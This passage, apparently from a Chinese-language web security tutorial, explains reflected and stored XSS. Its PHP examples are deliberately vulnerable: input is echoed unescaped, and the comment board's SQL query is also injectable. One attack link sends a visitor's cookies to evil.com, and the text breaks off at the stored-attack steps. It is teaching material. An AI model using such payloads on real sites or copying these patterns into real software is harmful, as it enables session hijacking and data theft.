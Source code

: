 ```php
<?php
$error_msg = $_GET['error'];
?>
<html>
<body>
    <h1>错误页面</h1>
    <p style="color:red;">错误: <?php echo $error_msg; ?></p>
</body>
</html>
```

**攻击链接：**

http://website.com/error.php?error=<script>document.location='http://evil.com/steal.php?cookie='+document.cookie</script>

## 存储式XSS - 脚本被Web应用程序存储

### 📝 举例说明

#### 1. 留言板的存储式XSS

```php
<?php
// 保存评论到数据库
if ($_POST['comment']) {
    $comment = $_POST['comment'];
    // 危险：直接存储用户输入到数据库
    mysqli_query($conn, "INSERT INTO comments (content) VALUES ('$comment')");
}

// 显示所有评论
$result = mysqli_query($conn, "SELECT content FROM comments");
?>
<html>
<body>
    <h1>用户评论</h1>
    <?php while($row = mysqli_fetch_array($result)): ?>
        <div class="comment">
            <?php echo $row['content']; ?> <!-- 危险：直接输出存储的内容 -->
        </div>
    <?php endwhile; ?>
    
    <form method="post">
        <textarea name="comment" placeholder="发表评论..."></textarea>
        <button type="submit">提交</button>
    </form>
</body>
</html>
```

**攻击过程：**
